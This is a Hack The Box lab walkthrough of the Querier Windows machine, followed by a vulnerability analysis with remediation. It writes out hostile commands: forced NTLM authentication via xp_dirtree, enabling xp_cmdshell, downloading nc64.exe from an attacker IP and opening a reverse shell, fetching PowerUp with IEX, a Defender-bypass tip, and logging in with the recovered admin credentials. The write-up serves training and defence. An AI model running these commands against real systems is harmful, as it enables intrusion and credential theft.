# How I Rooted HTB Querier: XLSM Macro Credential Leak, NTLM Hash Theft, and GPP Password Recovery

> A Windows machine compromise through cleartext credentials hidden in an Excel macro, NTLMv2 hash capture via MSSQL forced authentication, and cached Group Policy Preferences credentials revealing the Administrator password in plaintext.

---

## Machine Overview



Querier is a Medium-rated Windows machine on Hack The Box that chains together four distinct credential exposure vulnerabilities.

The attack starts with anonymous SMB access to a non-default share containing an Excel macro workbook. The VBA macro embeds cleartext MSSQL credentials for a low-privilege reporting account. That account cannot enable `xp_cmdshell` but can execute `xp_dirtree`, which forces the MSSQL service account to authenticate outbound to a Responder listener - leaking its NTLMv2 hash. After cracking the hash, the service account has full `xp_cmdshell` access. Getting a shell requires bypassing an AV block on PowerShell reverse shells by switching to nc64.exe delivery via `DownloadFile`. Once on the box, PowerUp finds Administrator credentials cached in a Group Policy Preferences XML file.

## Summary of Findings

| # | Vulnerability | Severity | CVSS Score |
|---|---------------|----------|------------|
| 1 | Anonymous SMB access exposing MSSQL credential document | Critical | 9.8 |
| 2 | NTLMv2 hash capture via xp_dirtree forced authentication | High | 7.5 |
| 3 | Weak MSSQL service account password crackable with rockyou | Medium | 6.5 |
| 4 | Cached GPP credentials exposing Administrator plaintext password | Critical | 9.8 |

**Rationale for scores:**

- **9.8 Critical** - The `Reports` SMB share is accessible without authentication and contains an Excel macro workbook with a hardcoded MSSQL connection string including username and password in cleartext. Any unauthenticated attacker on the network can download the file and read the credentials. AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H.
- **7.5 High** - The `reporting` MSSQL account can execute `xp_dirtree` with a UNC path pointing to an attacker-controlled host. This forces the MSSQL service account to perform an outbound SMB authentication, leaking its NTLMv2 hash to a Responder listener. AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N.
- **6.5 Medium** - The `mssql-svc` service account uses a weak password (`corporate568`) present in the rockyou wordlist, allowing offline hash cracking in seconds. AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N.
- **9.8 Critical** - Group Policy Preferences stores the local Administrator password in a cached XML file readable by any local user. The password is encrypted with a publicly known AES key, which PowerUp decrypts automatically to recover the plaintext password. AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H.

**Techniques covered:**
- SMB null session enumeration and anonymous share access
- VBA macro analysis with `olevba` for embedded credential extraction
- MSSQL authentication with `sqsh`
- `/etc/hosts` hostname resolution for MSSQL connections
- NTLMv2 hash capture via `xp_dirtree` and Responder
- Offline hash cracking with John the Ripper
- `xp_cmdshell` enable via `sp_configure`
- Quote escaping in `xp_cmdshell` PowerShell commands
- AV bypass via nc64.exe delivery over PowerShell `DownloadFile`
- PowerUp `Invoke-AllChecks` for local privilege escalation enumeration
- GPP cached credential recovery
- Evil-WinRM lateral movement with Administrator credentials

---

## Reconnaissance

### Port Scan

```bash
nmap -sC -sV -p 135,139,445,1433,5985 10.129.38.35
```



| Port | Service | Notes |
|------|---------|-------|
| 135/139/445 | SMB | Windows Server 2019 |
| 1433 | MSSQL | Microsoft SQL Server 2017 RTM |
| 5985 | WinRM | Microsoft HTTPAPI 2.0 |

Domain: `HTB.LOCAL`, computer name: `QUERIER`. MSSQL version 14.00.1000.00 RTM.

WinRM on 5985 is useful later - if we get valid credentials for a user with Remote Management access, we can get an interactive shell without needing a reverse shell.

---

## Enumeration

### SMB - Anonymous Access

With no web service and only SMB and MSSQL visible, SMB anonymous access is the first check:

```bash
smbclient -L //10.129.38.35/ -N
```



Four shares: `ADMIN$`, `C$`, `IPC$`, and a non-default share called `Reports`. Admin and C$ require credentials. `Reports` does not.

```bash
smbclient //10.129.38.35/Reports -N
```

```
smb: \> dir
  Currency Volume Report.xlsm    A    12229  Sun Jan 27 17:21:34 2019
```

```bash
smb: \> get "Currency Volume Report.xlsm"
```



An Excel macro workbook. The file opens empty but the document is not the point - the VBA macros embedded inside are.

### XLSM Macro Analysis - Credential Extraction

Excel macro workbooks can contain VBA code that runs automatically. `olevba` extracts embedded macros without needing Excel:

```bash
olevba 'Currency Volume Report.xlsm'
```



```vba
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
```

Cleartext MSSQL credentials:

```
reporting : PcwTWTHRwryjc$c6
```

The macro was written to auto-connect to the MSSQL instance on startup. The developer left the credentials hardcoded in plaintext.

---

## Initial Access - MSSQL Credential Chain

### Step 1 - Connect as reporting

The connection string uses the server name `QUERIER` not an IP. Add the hostname to `/etc/hosts` first or the connection will fail:

```bash
echo "10.129.38.35 QUERIER HTB.LOCAL" | sudo tee -a /etc/hosts
```

Connect:

```bash
sqsh -S 10.129.38.35 -U QUERIER\\reporting -P 'PcwTWTHRwryjc$c6' -D volume
```



Connected. Test if `xp_cmdshell` is available:

```sql
EXEC sp_configure 'Show Advanced Options', 1;
go
```



```
Msg 15247, Level 16, State 1
User does not have permission to perform this action.
```

The `reporting` account is low-privilege. It cannot enable `xp_cmdshell` or modify server configuration. But it can still execute `xp_dirtree`.

### Step 2 - NTLMv2 Hash Theft via xp_dirtree

`xp_dirtree` is a built-in MSSQL procedure that lists directory contents of a given path. When given a UNC path (`\\attacker\share`), MSSQL initiates an SMB connection to that host - and in doing so, the MSSQL service account authenticates with its NTLMv2 hash.

Start Responder to capture the incoming authentication:

```bash
sudo responder -I tun0
```

Trigger the forced authentication from MSSQL:

```sql
xp_dirtree '\\10.10.15.38\any\thing'
go
```



```
[SMB] NTLMv2-SSP Username : QUERIER\mssql-svc
[SMB] NTLMv2-SSP Hash     : mssql-svc::QUERIER:b4d6e7ff45e083b0:78E276633...
```

The MSSQL service is running as `mssql-svc`. Its NTLMv2 hash is captured.

### Step 3 - Crack the Hash

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



```
mssql-svc : corporate568
```

Cracked in seconds - the password is in rockyou.

### Step 4 - Connect as mssql-svc and Enable xp_cmdshell

```bash
sqsh -S 10.129.38.35 -U QUERIER\\mssql-svc -P 'corporate568' -D volume
```



```sql
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
go
```



`xp_cmdshell` is now enabled. Verify:

```sql
xp_cmdshell 'whoami'
go
```

Returns `querier\mssql-svc`.

### Step 5 - Shell via nc64.exe

Attempting a PowerShell reverse shell via IEX triggers Windows Defender and blocks execution. The reliable bypass is to deliver nc64.exe via PowerShell `DownloadFile` (a less-flagged method than IEX) and execute it directly.

Note: quotes inside `xp_cmdshell` single quotes must be escaped as `\"` - unescaped quotes break the PowerShell command parsing and produce a `Missing ')'` error.

Start a listener:

```bash
sudo nc -lvnp 443
```

Download nc64.exe to the target:

```sql
xp_cmdshell 'powershell (New-Object Net.WebClient).DownloadFile(\"http://10.10.15.151/nc64.exe\",\"C:\Windows\Temp\nc64.exe\")'
go
```



Execute and connect back:

```sql
xp_cmdshell 'C:\Windows\Temp\nc64.exe -e cmd.exe 10.10.15.151 443'
go
```



Shell received as `querier\mssql-svc`.

---

## Privilege Escalation - GPP Cached Credentials

### PowerUp Enumeration

Transfer and run PowerUp to enumerate local privilege escalation vectors:

```
IEX(New-Object Net.WebClient).DownloadString("http://10.10.15.151/PowerUp.ps1")
Invoke-AllChecks
```



```
Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

PowerUp found cached Group Policy Preferences credentials. GPP stored local account passwords in XML files encrypted with AES-256, but Microsoft published the encryption key in 2012. Any tool that knows the key can decrypt these passwords from any GPP XML file. PowerUp does this automatically.

The Administrator password is `MyUnclesAreMarioAndLuigi!!1!`.

### Administrator Shell via Evil-WinRM

WinRM is open on port 5985. Connect directly as Administrator:

```bash
evil-winrm -i 10.129.38.35 -u Administrator -p 'MyUnclesAreMarioAndLuigi!!1!'
```



```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
querier\administrator
```

---

## Vulnerability Analysis

---

### Anonymous SMB Access Exposing Cleartext MSSQL Credentials

**Severity:** Critical
**CVSS Score:** 9.8

**Description:** The `Reports` SMB share is accessible without authentication and contains an Excel macro workbook (`Currency Volume Report.xlsm`) with a VBA macro that embeds a cleartext MSSQL connection string including username and password. Any unauthenticated attacker on the network can download the file and extract the credentials with `olevba`.

**Root Cause:** Two separate misconfigurations chain together. The SMB share was configured for anonymous access without considering what files it contained. Separately, the developer hardcoded MSSQL credentials directly in VBA code rather than prompting for authentication or reading from a protected configuration source.

**Impact:** Unauthenticated network access to valid MSSQL credentials, enabling the entire downstream attack chain including hash theft and eventual code execution.

**Remediation:**
- Remove anonymous access from the `Reports` share - require authentication for all non-default SMB shares
- Remove hardcoded credentials from VBA macros - use Windows Authentication (Trusted_Connection=yes) or prompt the user for credentials at runtime
- Audit all SMB shares for sensitive file exposure

---

### NTLMv2 Hash Capture via xp_dirtree Forced Authentication

**Severity:** High
**CVSS Score:** 7.5

**Description:** The `reporting` MSSQL account can execute `xp_dirtree` with a UNC path pointing to an attacker-controlled host. MSSQL initiates an outbound SMB connection to resolve the path, causing the `mssql-svc` service account to authenticate with its NTLMv2 hash. A Responder listener captures the hash for offline cracking.

**Root Cause:** `xp_dirtree` is enabled by default and available to any authenticated MSSQL user. The MSSQL service account performs outbound SMB authentication without any restriction, and no egress filtering prevents the outbound connection to attacker-controlled hosts.

**Impact:** NTLMv2 hash capture for the `mssql-svc` service account, enabling offline password cracking and potential privilege escalation to an account with `xp_cmdshell` access.

**Remediation:**
- Restrict outbound SMB (port 445) from MSSQL server to approved destinations only
- Run the MSSQL service under a gMSA or a domain account with a long random password that is computationally uncrackable
- Revoke `xp_dirtree` execution rights from low-privilege database accounts

---

### Weak MSSQL Service Account Password

**Severity:** Medium
**CVSS Score:** 6.5

**Description:** The `mssql-svc` account uses the password `corporate568`, which appears in the rockyou wordlist and is cracked from the captured NTLMv2 hash in seconds with John the Ripper.

**Root Cause:** A human-memorable password was chosen for the service account. Service accounts with registered SPNs or that perform network authentication are Kerberoasting and hash-cracking targets - only long randomly generated passwords provide meaningful protection.

**Impact:** Full recovery of the `mssql-svc` credential, enabling MSSQL authentication as that account and enabling `xp_cmdshell` for OS-level command execution.

**Remediation:**
- Assign a randomly generated password of at least 25 characters to all MSSQL service accounts
- Migrate to Group Managed Service Accounts (gMSA) which rotate automatically and cannot be cracked
- Rotate the compromised password immediately

---

### Cached GPP Credentials Exposing Administrator Plaintext Password

**Severity:** Critical
**CVSS Score:** 9.8

**Description:** A cached Group Policy Preferences XML file in `C:\ProgramData\Microsoft\Group Policy\History\` stores the local Administrator password encrypted with AES-256. Microsoft published the decryption key in 2012 (MS14-025). Any local user can read the file and any tool with the key - including PowerUp - decrypts the password automatically.

**Root Cause:** GPP was used to configure the local Administrator password via Group Policy. Microsoft deprecated this practice after publishing the decryption key, but the cached XML file was never cleaned up. The fundamental issue is that no per-machine secret can be safely distributed through Group Policy since the encryption key is public.

**Impact:** Full recovery of the local Administrator plaintext password, enabling direct authentication via WinRM and complete system compromise without any further exploitation.

**Remediation:**
- Delete all cached GPP XML files containing `cpassword` entries: search `C:\ProgramData\Microsoft\Group Policy\` recursively
- Use LAPS (Local Administrator Password Solution) to manage unique, rotating local Administrator passwords instead of GPP
- Apply MS14-025 if not already patched

---

## What I Learned

**Non-default SMB shares are always worth checking anonymously.** `ADMIN$` and `C$` require credentials but custom shares like `Reports` often do not. The share name suggests business documents - exactly where developers leave credential-bearing files.

**VBA macros in Office documents are a primary source of leaked credentials.** The document appeared empty, but the macro contained a full MSSQL connection string with username and password. `olevba` extracts this without needing Excel - always run it against any Office file found in enumeration.

**xp_dirtree is a hash theft vector even without xp_cmdshell.** The `reporting` account could not enable `xp_cmdshell` but it could run `xp_dirtree`. The UNC path triggers an outbound SMB connection from the MSSQL service account, leaking its NTLMv2 hash to Responder. No elevated SQL privileges required.

**Quote escaping inside xp_cmdshell matters.** Passing a PowerShell command with double quotes inside single-quoted `xp_cmdshell` breaks parsing. The `"` characters must be escaped as `\"` or the URL argument is cut off and PowerShell errors with `Missing ')'`.

**When a PowerShell reverse shell is blocked by AV, deliver nc64.exe instead.** IEX loading a TCP shell triggers Defender's `ScriptContainedMaliciousContent` signature. `DownloadFile` to a temp path followed by direct nc64 execution bypasses this - nc64 is a binary, not a script, and evades PS-level scanning.

**PowerUp finds GPP credentials automatically.** `Invoke-AllChecks` searches known GPP cache paths and decrypts any `cpassword` fields it finds. The Administrator password was sitting in a cached XML file from a Group Policy deployment in 2019 - a misconfiguration that had gone unnoticed for years.
